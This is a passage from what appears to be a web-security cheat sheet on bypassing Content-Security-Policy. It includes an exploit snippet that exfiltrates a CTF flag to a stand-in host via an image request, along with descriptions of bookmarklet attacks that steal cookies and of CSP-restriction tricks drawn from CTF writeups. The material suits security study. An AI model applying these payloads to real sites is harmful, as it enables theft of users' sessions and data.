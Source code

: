 ```html
      }
    }
    new Image().src = "http://PLAYER_SERVER/?" + prefix //Exfiltrate the flag
    console.log(prefix)
  }

  run()
</script>
```

### Via Bookmarklets

This attack would imply some social engineering where the attacker **convinces the user to drag and drop a link over the bookmarklet of the browser**. This bookmarklet would contain **malicious javascript** code that when drag\&dropped or clicked would be executed in the context of the current web window, **bypassing CSP and allowing to steal sensitive information** such as cookies or tokens.

For more information [**check the original report here**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/).

### CSP bypass by restricting CSP

In [**this CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), CSP is bypassed by injecting inside an allowed iframe a more restrictive CSP that disallowed to load a specific JS file that, then, via **prototype pollution** or **dom clobbering** allowed to **abuse a different script to load an arbitrary script**.

You can **restrict a CSP of an Iframe** with the **`csp`** attribute:

```html
<iframe
  src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]"
  csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```

In [**this CTF writeup**](https://github.com/aszx87410/ctf-writeups/issues/48), it was possible via **HTML injection** to **restrict** more a **CSP** so a script preventing CSTI was disabled and therefore the **vulnerability became exploitable.**\
CSP can be made more restrictive using **HTML meta tags** and inline scripts can disabled **removing** the **entry** allowing their **nonce** and **enable specific inline script via sha**:

```html
<meta
  http-equiv="Content-Security-Policy"
  content="script-src 'self'
'unsafe-eval' 'strict-dynamic'
'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2boz%2bCtD7RE4='
'sha256-Tz/iYFTnNe0de6izIdG%2bo6Xitl18uZfQWapSbxHE6Ic=';" />
```

### JS exfiltration with Content-Security-Policy-Report-Only
